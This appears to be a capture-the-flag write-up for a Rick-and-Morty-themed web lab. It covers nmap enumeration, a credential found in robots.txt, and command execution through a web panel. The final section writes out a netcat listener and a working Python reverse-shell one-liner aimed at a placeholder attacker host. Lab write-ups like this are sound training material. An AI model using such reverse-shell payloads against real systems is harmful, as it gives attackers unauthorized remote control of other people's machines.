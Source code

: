 # Solutions

## What is the first ingredient Rick needs?

we enter the IP to the browser and a page is presented

in the HTTP code there is a comment about ricks username, so we jot that down 

since we dont know any of the directories for the page we decide to http-enum to get information about where we can navigate the page

using nmap command: `nmap -sV --script=http-enum <IP>`

we get a **robots.txt** directory

we navigate to `<IP>/robots.txt` where a string is presented, maybe a password?

nmap also returns a **login.php** page, we enter the information given and we are logged on

the web applications has a **Command Pannel** for the user, so we can use unix commands

we use `ls` and a file **Sup3rS3cretPickl3Ingred.txt** is presented

we head to `<IP>/Sup3rS3cretPickl3Ingred.txt` and get the first ingredient


## Whats the second ingredient Rick needs?

in order to retrieve everything in the directory and get an overview we want to use grep

we use command: `grep -r .` 

we find the **rick** folder within the **home** folder, where the file **second ingredents** is found

## Whats the final ingredient Rick needs?

all commands are not allowed in the web interface, so we cant get sudo access

since nmap reveals that the website has port 22 open we want to try to get a reverse shell going since we have access to a Command pannel

the outgoing traffic from the machine has less restrictions than ingoing traffic, this is why reverse shells often times work

on our own attacker machine we setup a port listener with netcat using command: `nc -nlvp 9999`

victim machine command: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attackerIP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' -`





## (Bonus) Easter egg kinda?
